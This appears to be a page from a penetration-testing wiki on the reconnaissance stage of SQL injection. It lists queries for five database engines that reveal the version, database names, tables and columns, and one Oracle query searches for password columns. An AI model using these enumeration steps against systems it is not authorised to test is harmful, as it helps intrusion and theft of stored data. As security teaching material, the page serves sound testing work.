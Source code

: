 # Enum Database

## Theory

When exploiting SQL injection vulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains. 

## Practice

{% hint style="info" %}
All queries on this page can be used with different techniques as UNION or Blind based attacks
{% endhint %}

### Database version 
Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.  
The queries to determine the database version for some popular database types are as follows:  

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT banner FROM v$version
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT version() 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sqlite_version();
```
{% endtab %}
{% endtabs %}

### Database Names 
When performing SQL injections, it can be useful to know the names of the databases that are present on the targeted server. Enumerating the database names allows you to identify which databases are available and potentially gain insight into the server's configuration and architecture. This information can be used to craft more targeted and effective SQL injection attacks. 

{% tabs %}
{% tab title="MySQL" %}
We can enum the current database with the following query:
```sql
SELECT database();
```
We can list all databases with the following query:
```sql
SELECT schema_name FROM information_schema.schemata;
```
{% endtab %}

{% tab title="MSSQL" %}
We can enum the current database with the following query:
```sql
SELECT DB_NAME();
```
We can list all databases with the following queries:
```sql
SELECT name FROM master..sysdatabases;
/*or*/
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```
{% endtab %}

{% tab title="OracleSQL" %}
We can enum the current database with the following queries:
```sql
SELECT global_name FROM global_name;
SELECT name FROM V$DATABASE;
SELECT instance_name FROM V$INSTANCE;
SELECT SYS.DATABASE_NAME FROM DUAL;
```
We can list all databases with the following query:
```sql
SELECT DISTINCT owner FROM all_tables;
```
{% endtab %}

{% tab title="PostgreSQL" %}
We can enum the current database with the following query:
```sql
SELECT current_database();
```
We can list all databases with the following query:
```sql
SELECT datname FROM pg_database;
```
{% endtab %}

{% tab title="SQLite" %}
We can extract database structure with the following query
```sql
SELECT sql FROM sqlite_schema;
```
{% endtab %}
{% endtabs %}

### Tables Names 
The next step in performing SQL injections is to enumerate the tables that are present within each database. Enumerating the table names can provide valuable information about the structure and content of the databases.  

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_catalog = DB_NAME();
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT table_name FROM all_tables;
SELECT table_name FROM all_tables WHERE owner = USER;

SELECT owner, table_name FROM all_tables;
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = current_schema();
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';
```
{% endtab %}
{% endtabs %}

### Columns Names 
Next step is to enumerate columns within tables.It's a crucial step in the process of exploiting a SQL injection vulnerability.

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name';
```
{% endtab %}
{% endtabs %}


## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
